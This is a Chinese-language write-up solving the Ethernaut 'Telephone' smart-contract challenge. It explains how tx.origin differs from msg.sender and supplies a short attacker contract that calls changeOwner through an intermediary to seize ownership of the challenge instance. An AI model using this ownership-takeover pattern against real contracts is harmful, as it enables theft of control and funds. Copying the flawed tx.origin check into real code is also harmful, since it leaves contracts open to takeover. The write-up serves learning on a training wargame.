



# Telephone

## 题目

目标：修改owner

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

## 分析

这道题比较简单，只有一个方法可以修改owner。方法里面只有一个点`tx.origin != msg.sender`。要判断成功，就要tx.origin不等于msg.sender。那么我们来回顾一下他们两者的区别

- msg.sender：msg.sender 仅会读取上层调用者的地址。
- tx.origin：tx.origin 会读取启动交易的原始地址。

由下图可以看到，Bob 通过 A 合约调用 B 合约，B 合约又调用 C 合约。对于 C 合约来说，tx.origin 为 Bob ，msg.sender 为 B 合约。对于 B 合约来说， tx.origin 也是 Bob ， msg.sender 为 A 合约，对于 A 合约来说，tx.origin 与 msg.sender 均为 Bob 。这里我们可以得出一个结论：tx.origin 永远都是 EOA 地址，msg.sender 可以为 EOA 也可以为合约地址。



这么说，我们不可以直接调用Telephone合约的`changeOwner(address _owner)`方法，应该写一个合约来间接调用

## 攻击代码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}

contract Hack{
    Telephone telephone = Telephone(0x48db2e171B542DDE57f6E3116e42C5D9A5D47334);
    function attack()public{
        telephone.changeOwner(0xd3E65149C212902749D49011B6ab24bba30D97c6);
    }
}
```

## 做题

获取实例并且部署，然后调用attack发起攻击。查看owner，发现成功修改



通过




[原题目地址](https://ethernaut.openzeppelin.com/level/0x1ca9f1c518ec5681C2B7F97c7385C0164c3A22Fe)
